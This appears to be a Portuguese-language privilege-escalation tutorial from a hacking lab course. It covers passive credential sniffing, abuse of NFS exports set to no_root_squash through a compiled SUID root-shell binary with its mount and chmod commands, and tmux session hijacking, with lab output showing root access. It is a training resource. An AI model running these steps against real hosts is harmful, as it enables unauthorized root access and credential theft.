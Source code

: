 ## Captura de tráfego passiva

Se `tcpdump`estiver instalado, usuários sem privilégios podem capturar tráfego de rede, incluindo, em alguns casos, credenciais passadas em texto simples.

Existem várias ferramentas, como [net-creds](https://github.com/DanMcInerney/net-creds) e [PCredz](https://github.com/lgandx/PCredz) , que podem ser usadas para examinar dados sendo passados ​​na rede. Isso pode resultar na captura de informações confidenciais, como números de cartão de crédito e strings de comunidade SNMP.

Também pode ser possível capturar hashes Net-NTLMv2, SMBv2 ou Kerberos, que podem ser submetidos a um ataque de força bruta offline para revelar a senha em texto simples. Protocolos de texto simples, como HTTP, FTP, POP, IMAP, telnet ou SMTP, podem conter credenciais que podem ser reutilizadas para escalar privilégios no host.

## Privilégios NFS fracos
O Network File System (NFS) permite que os usuários acessem arquivos ou diretórios compartilhados pela rede hospedados em sistemas Unix/Linux.

O NFS usa a porta TCP/UDP 2049. Quaisquer montagens acessíveis podem ser listadas remotamente emitindo o comando `showmount -e`, que lista a lista de exportação do servidor NFS que os clientes NFS.

```shell-session
NycolasES6@htb[/htb]$ showmount -e 10.129.2.12

Export list for 10.129.2.12:
/tmp             *
/var/nfs/general *
```

Quando um volume NFS é criado, várias opções podem ser definidas:

| Opção            | Descrição                                                                                                                                                                                                                                                                                                             |
| ---------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `root_squash`    | Se o usuário root for usado para acessar compartilhamentos NFS, ele será alterado para o `nfsnobody`usuário, que é uma conta sem privilégios. Quaisquer arquivos criados e enviados pelo usuário root serão de propriedade do `nfsnobody`usuário, o que impede que um invasor envie binários com o bit SUID definido. |
| `no_root_squash` | Usuários remotos que se conectam ao compartilhamento como o usuário root local poderão criar arquivos no servidor NFS como o usuário root. Isso permitiria a criação de scripts/programas maliciosos com o bit SUID definido.                                                                                         |

```shell-session
htb@NIX02:~$ cat /etc/exports

# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/var/nfs/general *(rw,no_root_squash)
/tmp *(rw,no_root_squash)
```

Por exemplo, podemos criar um binário SETUID que executa `/bin/sh`usando nosso usuário root local. Podemos então montar o `/tmp`diretório localmente, copiar o binário de propriedade do root para o servidor NFS e definir o bit SUID.

Primeiro, crie um binário simples, monte o diretório localmente, copie-o e defina as permissões necessárias.

```shell-session
htb@NIX02:~$ cat shell.c 

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```

```shell-session
htb@NIX02:/tmp$ gcc shell.c -o shell
```

```shell-session
root@Pwnbox:~$ sudo mount -t nfs 10.129.2.12:/tmp /mnt
root@Pwnbox:~$ cp shell /mnt
root@Pwnbox:~$ chmod u+s /mnt/shell
```

Quando retornamos para a sessão com privilégios baixos do host, podemos executar o binário e obter um shell root.

```shell-session
htb@NIX02:/tmp$  ls -la

total 68
drwxrwxrwt 10 root  root   4096 Sep  1 06:15 .
drwxr-xr-x 24 root  root   4096 Aug 31 02:24 ..
drwxrwxrwt  2 root  root   4096 Sep  1 05:35 .font-unix
drwxrwxrwt  2 root  root   4096 Sep  1 05:35 .ICE-unix
-rwsr-xr-x  1 root  root  16712 Sep  1 06:15 shell
<SNIP>
```

```shell-session
htb@NIX02:/tmp$ ./shell
root@NIX02:/tmp# id

uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(htb)
```

## Sequestro de sessões do Tmux
Multiplexadores de terminal como [o tmux](https://en.wikipedia.org/wiki/Tmux) podem ser usados ​​para permitir que várias sessões de terminal sejam acessadas dentro de uma única sessão de console. Quando não estiver trabalhando em uma `tmux`janela, podemos nos desconectar da sessão, ainda deixando-a ativa (ou seja, executando uma `nmap`varredura).

Por muitas razões, um usuário pode deixar um `tmux`processo em execução como um usuário privilegiado, como root configurado com permissões fracas, e pode ser sequestrado. Isso pode ser feito com os seguintes comandos para criar uma nova sessão compartilhada e modificar a propriedade.

```shell-session
htb@NIX02:~$ tmux -S /shareds new -s debugsess
htb@NIX02:~$ chown root:devs /shareds
```

Se pudermos comprometer um usuário no `dev`grupo, podemos nos conectar a esta sessão e obter acesso root.

Verifique se há algum `tmux`processo em execução.
```shell-session
tb@NIX02:~$  ps aux | grep tmux

root      4806  0.0  0.1  29416  3204 ?        Ss   06:27   0:00 tmux -S /shareds new -s debugsess
```

Confirme as permissões.
```shell-session
htb@NIX02:~$ ls -la /shareds 

srw-rw---- 1 root devs 0 Sep  1 06:27 /shareds
```

Revise nossa associação ao grupo.
```shell-session
htb@NIX02:~$ id

uid=1000(htb) gid=1000(htb) groups=1000(htb),1011(devs)
```

Por fim, conecte-se à `tmux`sessão e confirme os privilégios de root.
```shell-session
htb@NIX02:~$ tmux -S /shareds

id

uid=0(root) gid=0(root) groups=0(root)
```






















































